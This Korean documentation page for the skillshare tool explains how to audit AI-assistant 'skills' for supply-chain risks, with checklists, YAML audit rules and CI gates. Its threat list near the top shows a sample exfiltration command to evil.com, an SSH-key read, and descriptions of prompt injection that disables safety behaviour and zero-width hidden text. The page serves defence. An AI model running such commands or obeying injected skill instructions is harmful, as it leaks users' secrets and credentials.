

# Skill 보안 강화하기

AI skill은 강력합니다 — 파일을 읽고, 명령을 실행하고, 시스템과 상호작용하도록 AI 어시스턴트에게 지시합니다. 이 가이드는 skill 설치 및 유지 관리를 둘러싼 보안 워크플로를 구축하는 데 도움을 줍니다.

전체 명령어 레퍼런스는 [`audit`](/docs/reference/commands/audit)를 참고하세요.

## 위험 요소: AI Skill 공급망

샌드박스화된 런타임에서 실행되는 전통적인 패키지와 달리, AI skill은 AI가 직접 해석하고 실행하는 **자연어 지시문**을 통해 작동합니다. 손상된 skill은 AI에게 다음을 지시할 수 있습니다.

- 비밀 정보 유출 (`curl https://evil.com?key=$API_KEY`)
- credential 읽기 (`cat ~/.ssh/id_rsa`)
- 프롬프트 인젝션을 통한 안전 동작 무력화
- 폭 없는(zero-width) 유니코드 문자로 악의적 의도 숨기기

:::caution

단 하나의 악성 skill이 AI 어시스턴트가 접근할 수 있는 모든 것 — 환경 변수, SSH 키, 클라우드 credential, 소스 코드 — 에 접근할 수 있습니다. 자동화된 스캐닝은 알려진 패턴을 잡아내지만, **사람의 검토는 여전히 필수적**입니다.

상세한 threat model과 탐지 규칙은 [보안 스캐닝이 중요한 이유](/docs/understand/audit-engine#why-security-scanning-matters)를 참고하세요.

:::

## 심층 방어

단일 계층만으로는 모든 것을 잡아낼 수 없습니다. 수동 검토, 자동화된 스캐닝, 커스텀 정책, CI/CD 게이트를 결합하세요.

| 계층 | 도구 | 하는 일 |
|-------|------|-------------|
| **검토** | 수동 | 설치 전 SKILL.md 읽기 — 의심스러운 명령 확인 |
| **Audit** | `skillshare audit` | 자동화된 패턴 탐지 (내장 규칙 100개 이상, 심각도 5단계, 분석기 6개) |
| **커스텀 규칙** | `audit-rules.yaml` | 조직별 패턴 (내부 비밀 정보, allowlist) |
| **CI/CD** | 파이프라인 게이트 | 위험한 skill을 도입하는 PR 차단 |

### 공급망 보안 라이프사이클

보안 체크포인트는 skill이 어떻게 install되었는지(`--track` vs 일반 install)에 따라 달라집니다.



**핵심 설계:**
- **일반 skill install/update** — 수락 전에 audit이 실행됨. 성공한 install/update는 `file_hashes` 메타데이터를 기록
- **Tracked repo install 게이트** — 새로 `--track`으로 install하면 수락 전에 clone된 전체 repo가 audit됨
- **Tracked repo update 게이트** — `skillshare update`는 `git pull` 후 audit함. threshold 이상의 결과는 non-interactive 모드에서 자동으로 rollback을 트리거함
- **Integrity 검증 범위** — `content-*` 해시 검사는 `file_hashes` 메타데이터가 존재할 때만 실행됨

## 보안 체크리스트

:::tip 3단계 체크리스트

**설치 전:**
- [ ] source repo 검토 (star, contributor, 최근 활동)
- [ ] SKILL.md 읽기 — `curl`, `wget`, `eval`, credential 경로 확인
- [ ] 먼저 dry-run: `skillshare install <source> --dry-run`

**설치 후:**
- [ ] `skillshare audit` 실행 및 모든 결과 검토
- [ ] skill이 "통과"했더라도 HIGH/MEDIUM 결과 확인 (기본 threshold는 CRITICAL)
- [ ] 주기적으로 재감사 — 새 규칙이 이전에 감지되지 않은 패턴을 잡아낼 수 있음

**팀을 위해:**
- [ ] config에서 `audit.block_threshold: HIGH` 설정
- [ ] 조직별 비밀 정보 패턴에 대한 커스텀 규칙 생성
- [ ] 공유 skill repo에 대해 CI 파이프라인에 audit 추가
- [ ] 주기적 스캔 일정 잡기 (아래 [주기적 스캐닝](#periodic-scanning) 참고)

:::

## 조직 정책

### 차단 Threshold

기본 threshold는 `CRITICAL` 결과만 차단합니다. 팀의 경우 더 엄격한 threshold를 권장합니다.

```yaml
# ~/.config/skillshare/config.yaml
audit:
  block_threshold: HIGH  # HIGH와 CRITICAL 결과를 차단
```

이는 난독화, 파괴적 명령, 숨겨진 콘텐츠 인젝션 등 skill 파일에서 거의 항상 악의적인 패턴을 잡아냅니다.

### 커스텀 규칙

조직별 탐지 패턴을 추가하세요. 일반적인 사용 사례:

- 내부 API 키 형식 (`corp-api-key-*`, `internal-token-*`)
- 허용되지 않는 도메인이나 서비스
- 신뢰할 수 있는 CI 자동화에 대한 false positive 억제

```yaml
# ~/.config/skillshare/audit-rules.yaml
rules:
  - id: internal-token-leak
    severity: HIGH
    pattern: internal-token
    message: "Internal API token pattern detected"
    regex: '(?i)\b(corp-api-key|internal-token)-[A-Za-z0-9]{10,}\b'

  - id: destructive-commands-2
    severity: MEDIUM
    pattern: destructive-commands
    message: "Sudo usage (downgraded for CI automation)"
    regex: '(?i)\bsudo\s+'
```

전체 커스텀 규칙 레퍼런스(병합 시맨틱, 규칙 비활성화, exclude 패턴)는 [`audit rules` — 커스텀 규칙](/docs/reference/commands/audit-rules#custom-rules)을 참고하세요.

### 주기적 스캐닝 {#periodic-scanning}

규칙은 계속 발전합니다 — install 시점에 깨끗했던 skill이 나중에 추가된 새 규칙에 걸릴 수 있습니다. 주기적인 스캔을 예약하세요.

```bash
# crontab: 매주 모든 skill을 스캔하고 결과 기록
0 9 * * 1 skillshare audit --json >> /var/log/skillshare-audit.json 2>&1
```

## CI/CD 통합

### 기본 파이프라인 게이트

```bash
# 어떤 skill이든 HIGH 이상 결과가 있으면 파이프라인 실패
skillshare audit --threshold high
# 종료 코드: 0 = 깨끗함, 1 = 결과 발견됨
```

### 실제 사례: Skill Hub PR 검증

[skillshare-hub](https://github.com/runkids/skillshare-hub) 커뮤니티 repo는 pull request를 게이트하기 위해 `skillshare audit`를 사용합니다. skill을 수정하는 모든 PR은 자동으로 스캔되며, audit 결과는 PR 댓글로 게시됩니다.

```yaml
# .github/workflows/validate-pr.yml (간략화됨)
name: Validate PR
on:
  pull_request:
    paths: ['skills/**']

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: runkids/setup-skillshare@v1
        with:
          source: ./skills
          audit: true
          audit-threshold: high
```

전체 워크플로(PR 댓글 리포팅 및 아티팩트 업로드 포함)는 [validate-pr.yml 소스](https://github.com/runkids/skillshare-hub/blob/main/.github/workflows/validate-pr.yml)를 참고하세요.

더 많은 CI/CD 패턴(SARIF 업로드, strict 프로필, 수동 설정)은 [CI/CD Skill 검증 레시피](/docs/how-to/recipes/ci-cd-skill-validation)를 참고하세요.

## 참고

- [`audit`](/docs/reference/commands/audit) — CLI 명령어 레퍼런스
- [`audit rules`](/docs/reference/commands/audit-rules) — 규칙 관리 및 커스터마이징
- [Audit 엔진](/docs/understand/audit-engine) — 엔진 작동 방식 (threat model, risk scoring, tiering)
- [모범 사례](/docs/how-to/daily-tasks/best-practices) — 네이밍, 조직화, 보안 위생
- [프로젝트 설정](/docs/how-to/sharing/project-setup) — Project 범위 skill 구성
